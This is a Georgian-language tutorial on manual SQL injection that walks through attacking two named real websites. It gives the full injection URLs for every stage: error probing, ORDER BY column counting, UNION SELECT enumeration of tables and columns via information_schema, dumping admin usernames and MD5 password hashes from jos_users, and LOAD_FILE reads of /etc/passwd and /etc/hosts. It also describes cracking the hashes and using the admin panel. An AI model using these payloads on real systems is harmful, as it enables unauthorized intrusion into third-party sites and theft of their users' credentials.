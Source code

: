 # SQL Injection - ინექცია SQL რექვესტში

ალბათ ყველა აქედან იწყებს თავის ჰაკერულ ცხოვრებას :D

ჩვენც დავიწყოთ... :D


ჩემი აზრით მაგალითებზე ყველაზე კარგად ვსწავლობთ, ამიტომ ავიღოთ რომელიმე საიტი მაგალითად :)

# ნაბიჯი #1. ვეძებთ ბაგს!!...


საიტი შემდეგია:

**[[http://www.kiis.com.ua/?id=2&sp=1]]**

როდესაც მოცემულია მსგავსი ბმულლი (რაღაცა.php?id=რიცხვი), ბაგის საპოვნელად საკმარისია ბმულის ბოლოში **'** -ს მიწერა.

**[[http://www.kiis.com.ua/?id=2&sp=1']]**

თუ საიტი ამოგვიგდებს შეცდომას (ოღონდ არა ნებისმიერს) ესე იგი შეიძლება ინექციის განხორციელება. როგორც ხედავთ ამ შემთხვევაშიც შეგვიძლია ინექციის გაკეთება.

    პატარა გადახვევა: ამ შემთხვევაში პირველი ორი შეცდომა არის **include** ფუნქციის, რომელიც ზოგჯერ
    საშუალებას გვაძლევს განვახორციელოთ **Local/Remote File Inclusion** რომელსაც, იმედია 
    განვიხილავთ შემდეგში.


# ნაბიჯი #2. ვითვლით სტოლბებს


ამისათვის ჩვენ შეგვიძლია გამოვიყენოთ order+by ფუნქცია, მაგრამ ამან შეიძლება ყოველთვის არ გაამართლოს და უბრალოდ მოგვიწევს ამ საფეხურის გამოტოვება :)

სტოლბების დათვლა ხდება შემდეგნაირად: ვივარაუდოთ, რომ მოცემულ გვერდს აქვს 10 სტოლბა, ამის შესამოწმებლად ჩვენ ვაკეთებთ შემდეგს...

**[[http://www.kiis.com.ua/?id=2&sp=1+order+by+10--]]**

როგორც ვხედავთ საიტი ისევ გვიჩვენებს შეცდომას, ეს იმას ნიშნავს, რომ გვაქვს 10 სტოლბაზე ნაკლები. ვაგრძელებთ... შემდეგი ვარაუდი 5 სტოლბა...

**[[http://www.kiis.com.ua/?id=2&sp=1+order+by+5--]]**

როგორც ხედავთ საიტი აღარ გვაძლევს იმ შეცდომას, რომელიც საშუალებას გვაძლევს განვახორციელოთ ინექცია (მაპატიეთ ტაფტალოგიისთვის:). ეს იმას ნიშნავს, რომ გვაქვს 5 სტოლბაზე მეტი.

ახლა უკვე ჩვენ ვიცით, რომ გვაქვს 5-ზე მეტი და 10-ზე ნაკლები სტოლბა. ვაგრძელებთ თვლას... ვივარაუდოთ 8 სტოლბა:

**[[http://www.kiis.com.ua/?id=2&sp=1+order+by+8--]]**

ისევ ვხედავთ შეცდომა. ვცადოთ 9 :)

**[[http://www.kiis.com.ua/?id=2&sp=1+order+by+9--]]**

საიტი არ აგდებს შეცდომას. ალბათ მიხვდით რასაც ნიშნავს ეს :) ჩვენ გვაქვს 9 სტოლბა. :)

# ნაბიჯი #3. ვიპოვოთ პრინტაბელური სტოლბა


ინფორმაციის გამოსატანად ჩვენ დაგვჭირდება **union+select** ბრძანება. რადგანაც ჩვენ გვაქვს 9 სტოლბა ჩვენი ბმული მიიღებს შემდეგ სახეს:

**[[http://www.kiis.com.ua/?id=2&sp=1+union+select+1,2,3,4,5,6,7,8,9--]]**

ალბათ შეამჩნიეთ ციფრი 5, რომელიც გაჩნდა ჩვენს გვერდზე. ეს ნიშნავს, რომ პრინტაბული სტოლბა არის 5.

პრინტაბელური სტოლბა საჭიროა იმისათვის, რომ გვერდზე გამოვიყვანოთ ჩვენს მიერ (შემდგომში) მიწოდებული ბრძანების შედეგები.

# ნაბიჟი #4. გავიგოთ sql-ის ვერსია


ამისათვის შემოგთავაზებთ ორ ბრძანებას, **@@version** და **version()**. პრინტაბელი სტოლბის მაგივრად ჩვენ უნდა ჩავსვათ რომელიმე ამ ბრძანებებისგან, საპასუხოდ კი 5-იანის (პრინტაბელური სტოლბის) ადგილას უნდა გამოვიდეს sql-ის ვერსსია. ვაგრძელებთ... ჩვენმა ბმულმა მიიღო შემდეგი სახე:

**[[http://www.kiis.com.ua/?id=2&sp=1+union+select+1,2,3,4,@@version,6,7,8,9--]]**

//sql-ის 4 ვერსიაზე ჩვენ ვერ შევძლებთ table-ებისა და column-ების სახელების გაგებას, ამიტომ მოგვიწევს მათი შერჩევა ხელით. გავაგრძელოთ კითხვა, ამ საკითხს მივუბრუნდები სტატიის ბოლოში.//

ამ შემთხვევაში ვხედავთ, რომ sql-ის ვერსიაა 5.x.x.

# ნაბიჯი #5. ვეძებთ table-ებს


ეს ნიშნავს, რომ ჩვენ შეგვიძლია გავიგოთ ყველა table და column შემდეგი ბრძანებების საშუალებით... 

   group_concat(table_name)    +from+information_schema.tables

ბმული გამოიყურება შემდეგნაირად:

[[http://www.kiis.com.ua/?id=2&sp=1+union+select+1,2,3,4,group_concat(table_name),6,7,8,9+from+information_schema.tables--]]

როგორც ვხედავთ გვერდზე გამოვიდა table-ები, მაგრამ ეს არაა სრული სია. ამ table-ებს შეიძლება დავარქვათ დეფაულტ table-ები, ამიტომ ჩვენ უნდა მოვიხხმარიოთ სხვა ხერხი. ჩვენს ბრძანებას 

   group_concat(table_name) უნდა მივცევთ ცოტა განსხვავებული სახე: **concat(table_name)**

ბმული გამოიყუება შემდეგნაირად:

[[http://www.kiis.com.ua/?id=2&sp=-1+union+select+1,2,3,4,concat(table_name),6,7,8,9+from+information_schema.tables--]]

გამოყოფს table-ებს ერთმანეთისაგან.

# ნაბიჯი #5. ვეძებთ column-ებს


ჩვენ უკვე გავიგეთ table-ების სახელები. ახლა უნდა ამოვარჩიოთ მათგან ყველაზე მიმზიდველი :D ამ შემთხვევაში ალბათ **jos_users**. ამის შემდეგ ჩვენ უნდა გავიგოთ column-ების სახელები, რომლებიც შეესაბამება ამ table-ს. ამისათვის ჩვენ ვიყენებთ შემდეგ ბრძანებას:

   group_concat(column_name)  +from+information_schema.columns+where+table_name=0xTable

სადაც Table ჩვენი არჩეული ცხრილის ჰექსია. ტექსტის ჰექსებში გადაყვანა შეგიძლიათ  [[http://www.swingnote.com/tools/texttohex.php|ამ ბმულზე]].

ჩვენს შემთხვევაში **group_concat** ბრძანება არ მუშაობს გამართულად, ამიტომ აქაც ვიყენებთ მას სახეცვლილი ფორმით:  **concat(column_name)**  

ამ დროისთვის ჩვენი ბმული იღებს ასეთ სახეს:


[[http://www.kiis.com.ua/?id=2&sp=-1+union+select+1,2,3,4,concat(column_name),6,7,8,9+from+information_schema.columns+where+table_name=0x6a6f735f7573657273--]]

**6a6f735f7573657273**  //jos_users//-ის ჰექსია.

# ნაბიჯი #6. ინფორმაციის ამოღება

ჩვენ უკვე ვიცით **jos_users** table-ს შესაბამისი column-ები. ახლა უნდა ავირჩიოთ მათგან რამოდენიმე, ჩვენთვის საინტერესო. ამ შემთხვევაში გვაინტერესებს username და password. **jos_users** table-სგან რომ მოვიპოვოთ ინფორმაცია username-სა და password-ების შესახებ ვაკეთებთ შემდეგს:

**[[http://www.kiis.com.ua/?id=2&sp=-1+union+select+1,2,3,4,concat(username,0x3a,password),6,7,8,9+from+jos_users--]]**

3a არის **:** -ის ჰექსი (სტანდარტულად, ჰექსის წინ იწერება 0x). ანუ - ჯერ უნდა გამოვიდეს username, შემდეგ :  შემდეგ კი password.

ამ ბმულის მეშვეობით ჩვენ შევძელით ადმინის, ტესტ ადმინის და PR მენეჯერის იუზერნეიმებისა და პაროლების გამოტანა. პაროლი არის დაკრიპტული, MD5 ალგორითმით. მისი გაკრეკვა შეიძლება სხვადასხვა პროგრამების დახმარებით, ასევე არსებობს [[reference:hash_crackers|ონლაინ კრეკერები]].

პაროლის გარკეკვის შემდეგ, შეგვიძლია მოვძებნოთ საიტის ადმინ პანელი და გამოვიყენოთ ადმინის ფუნქციები.


მივუბრუნდეთ 4.x.x sql-ის ვერსიის შემთხვევას. ესეთ შემთხვევაში ჩვენ ვერ გავიგებდით table-ებისა და column-ების სახელებს და მოგვიწევდა მათი ხელით, ან რაიმე პროგრამით მორგება. ეს კი მტკივნეული პროცესია და არც ისე დიდია გამართლების შანსი.

# ნაბიჯი #7. Load File ფუნქციის შესახებ


არის ისეთი შემთხვევებიც როცა ჩვენ შეგვიძლია სხვადასხვა ფაილების წაკითხვა სერვერზე, ინექციის საშუალებით. მგონი საკმარისი იქნება ერთი მაგალითის ჩვენება... და აი ისიც:


**[[http://wwww.breakfastandbrunch.com/shop.php?catid=-2+union+select+LOAD_FILE('/etc/passwd')--]]**


პრინტაბელური სტოლბის ადგილას უნდა ჩავწეროთ მაგალითად, **LOAD_FILE('/etc/passwd')** ან **LOAD_FILE('/etc/hosts')**


**[[http://www.breakfastandbrunnch.com/shop.php?catid=-2+union+select+LOAD_FILE('/etc/hosts')--]]**


აქაც შესაძლებელია ჰექსების გამოყენება, მაგალითად:


**[[http://www.breakfastandbrunch.com/shop.php?catid=-2+union+select+LOAD_FILE(0x2f6574632f706173737764)--]]**

სულ ეს იყო.

მადლობა HektoR-ს რითმისთვის :D

გმადლობთ ყურადღებისთვის.

